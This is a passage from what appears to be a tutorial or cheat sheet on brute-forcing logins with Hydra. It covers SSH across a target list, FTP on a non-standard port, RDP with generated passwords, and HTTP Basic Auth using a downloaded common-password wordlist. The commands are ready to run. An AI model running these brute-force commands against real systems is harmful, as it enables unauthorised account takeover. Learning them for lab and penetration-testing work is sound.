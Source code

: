 
#### **4. Brute-Forcing Multiple SSH Targets**
If multiple SSH servers are listed in a file (`targets.txt`):  
```bash
hydra -l root -p toor -M targets.txt ssh
```
✅ Uses "root" as the username  
✅ Tries "toor" as the password  
✅ Targets all IPs listed in `targets.txt`  


#### **5. Testing FTP Credentials on a Non-Standard Port**
If an FTP service runs on a non-default port (e.g., `2121`):  
```bash
hydra -L usernames.txt -P passwords.txt -s 2121 ftp://ftp.example.com
```
✅ Targets FTP service on `ftp.example.com`  
✅ Uses port `2121`  
✅ Tries all username-password combinations from the lists  



#### **6. Advanced RDP Brute-Forcing**
If the password format is unknown but has a defined length and character set:  
```bash
hydra -l administrator -x 6:8:abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 192.168.1.100 rdp
```
✅ Uses "administrator" as the username  
✅ Generates passwords between `6-8` characters using a defined charset  
✅ Targets the RDP service on `192.168.1.100`  


---

# Basic HTTP Authentication

## **Understanding Basic Auth**
- A simple authentication method where credentials (username:password) are encoded in Base64.
- Credentials are sent in the `Authorization` header as:  
  ```
  Authorization: Basic <encoded_credentials>
  ```
- Vulnerable to brute-force attacks as credentials are only encoded, not encrypted.

## **Hydra Brute-Force Attack on Basic Auth**
### **Download a Wordlist (if needed)**
```bash
curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt
```

### **Hydra Command Breakdown**
```bash
hydra -l basic-auth-user -P 2023-200_most_used_passwords.txt 127.0.0.1 http-get / -s 81
```
#### **Explanation:**
| Parameter | Description |
|-----------|------------|
| `-l basic-auth-user` | Specifies the username (`basic-auth-user`) |
| `-P 2023-200_most_used_passwords.txt` | Uses the given password wordlist |
| `127.0.0.1` | Target IP (localhost in this case) |